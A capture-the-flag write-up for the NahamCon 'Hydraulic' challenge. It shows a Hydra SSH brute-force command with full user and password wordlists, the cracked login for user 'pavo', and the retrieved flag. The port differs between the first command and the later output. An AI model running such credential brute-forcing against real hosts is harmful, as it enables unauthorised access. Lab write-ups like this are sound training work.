 # Hydraulic

## The brief
```
This is Stage 2 of Path 5 in The Mission. After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.

Gain access with the information you have gathered thus far and retrieve the flag.

You may bruteforce this challenge... hence the name ;)

Press the Start button on the top-right to begin this challenge.
```
The hint and the previously gathered info should make this really easy.

## Logging in

We are supposed to ssh in: `ssh -p 30946 challenge.nahamcon.com`. But as who and how? Well we have some lists from `Lyra`. And what rhymes with `Hydraulic`? `Hydra`! Wait... that's not how rhyming works...

## Hydra

Hydra is a credential bruteforcing tool that we will use as follows:
```
hydra -L users -P wordlist ssh://challenge.nahamcon.com:30946 

-L users => L denotes a list of users; l would be a single username

-P wordlist => P denotes a list of passwords; p would be a single password

ssh:// => the service 

challenge.nahamcon.com => the host

:30946 => the port
```
So what wordlists shall we use? Think back to `Lyra`! We have these:
```
passwords:

starstar
allstars
starstruck
starshine
starsky
popstars
starship
bluestars
pinkstars
superstars
ilovestars
rockstars
thestars
starscream
gostars
shootingstars
northstars
alpinestars
starsign
moonandstars
starsrock
luckystars
iluvstars
fivestars
redstars
mystars
lovestars
dallasstars
moonstars
sunmoonstars
starsailor
silverstars
sevenstars
lilstars
dotaallstars
sunstars
starsun
starsstars
starsareblind
pokerstars
magicstars
divastars
blackstars
starstarstar
starsearch
luvstars
greenstars
deathstars
brightstars
twinstars
starsinthesky
starshooter
starsha
threestars
summerstars
starspirit
starshollow
starsandstripes
starsandmoons
nightstars
metrostars
icstars
hoodstars
deadstars
citystars
```
```
users: 

orion
pavo
gus
vela
hercules
leo
lyra
gemini
```
Now some of you may have just tried with `lyra`, but that is not the user we will login as.

## Getting the flag:

After just a little bit of time this appears:
```
[32432][ssh] host: challenge.nahamcon.com   login: pavo  password: starsinthesky
```
So ssh over:
```
ssh -p 32432 pavo@challenge.nahamcon.com

pavo@challenge.nahamcon.com's password: starsinthesky
```
And then?
```bash
pavo@hydraulic-6cd1af33c856d4b5-6f5bb8b867-q9fgh:~$ ls
flag.txt
pavo@hydraulic-6cd1af33c856d4b5-6f5bb8b867-q9fgh:~$ cat flag.txt
flag{cadbbfd75d2547700221f8c2588e026e}
```
There it is! 